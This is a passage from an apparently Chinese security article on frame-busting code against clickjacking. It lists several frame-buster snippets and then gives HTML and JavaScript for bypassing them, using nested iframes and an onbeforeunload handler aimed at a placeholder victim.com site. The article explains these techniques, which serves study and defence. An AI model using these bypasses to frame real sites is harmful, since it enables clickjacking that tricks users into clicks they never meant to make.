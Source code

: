 ```javascript
top.location.replace(window.location.pathname)
window.top.location = window.self.location
setTimeout(function(){document.body.innerHTML='';},1);
window.self.onload = function(evt){document.body.innerHTML='';}
var url = window.location.href; top.location.replace(url)
```

## 0x02 绕过的几种方式

对于使用parent.location来防御的可以使用多层嵌套的方式绕过。

### 一、例如防御代码为：

```javascript
if(top.location!=self.location){
     parent.location = self.location;
}
```

建立两个页面：

1.html代码为：

```html
<iframe src="2.html">
```

2.html代码为：

```html
<iframe src="http://www.victim.com">
```

访问1.html之后可以看到页面并无跳转等动作。

![](http://static.wooyun.org/20141017/2014101711515250154.png)

### 二、onBeforeUnload函数的利用：

onBeforeUnload的介绍以及各种浏览器的支持情况请见：

http://w3help.org/zh-cn/causes/BX2047

如下的防御代码：

```javascript
if(top != self) top.location.replace(location);
```

新建立页面，代码如下：

```html
<script>
var framekiller = true;
window.onbeforeunload = function() {
    if(framekiller) {
        return"Write something here to keep people stay!";
    }
};
</script>
<iframe src="http://www.victim.com/">
```
